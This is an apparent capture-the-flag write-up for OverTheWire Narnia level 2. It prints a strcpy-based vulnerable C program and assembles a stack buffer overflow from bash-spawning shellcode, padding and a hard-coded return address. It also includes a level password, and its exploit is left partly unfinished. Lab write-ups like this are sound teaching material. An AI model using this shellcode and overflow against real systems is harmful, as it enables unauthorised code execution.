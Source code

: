 # Level 2 → Level 3

## Solution
```
ssh narnia2@narnia.labs.overthewire.org -p 2226
```
```
Zzb6MIyceT
```
```
cd /narnia ; ls -al
```
```
cat narnia2.c
```

The printed file is shown below:

```c
/*
   This program is free software; you can redistribute it and/or modify
   it under the terms of the GNU General Public License as published by
   the Free Software Foundation; either version 2 of the License, or
   (at your option) any later version.

   This program is distributed in the hope that it will be useful,
   but WITHOUT ANY WARRANTY; without even the implied warranty of
   MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
   GNU General Public License for more details.

   You should have received a copy of the GNU General Public License
   along with this program; if not, write to the Free Software
   Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
    char buf[128];

    if(argc == 1){
        printf("Usage: %s argument\n", argv[0]);
        exit(1);
    }
    strcpy(buf,argv[1]);
    printf("%s", buf);

    return 0;
}
```

In the first few seconds I didn't understand what could be done here. But then I remembered [microcorruption](https://github.com/SimchaTeich/Microcorruption)! And in my opinion, shellcode should be implanted here to the top of the stack and overwrite the value back which is 128+4 bytes from the top of the stack (plus 4 because there is an EBP register). Therefore, the order of operations will be as follows:
* Inserting shellcode at the top of the stack
    * The same shellcode from the previous challenge that causes bash to run
* Padding the shellcode so that it is 128+4 bytes in size
* And next to that will come the address to the top of the stack
     * This will overwrite the address back from main
     * Don't forget little endian

Let's get started:
1. shellcode is:
    ```
    SHELLCODE=$'\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'
    ```

2. padding is: 
    ```
    PADDING=$(perl -e 'print "A"x(128-33+4)')
    ```

3. what is the address of the top of the stack?
    
    #TODO: continue with gdb
    ```
    gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING))
    ```




    ```
    SHELLCODE_ADDR=$'\xf8\xd3\xff\xff'
    ```

Let's combine them together:
```
gdb --args ./narnia2 $(echo -e $(echo -e $SHELLCODE)$(echo -e $PADDING)$(echo -e $SHELLCODE_ADDR))
```

## Password for the next level:
```

```
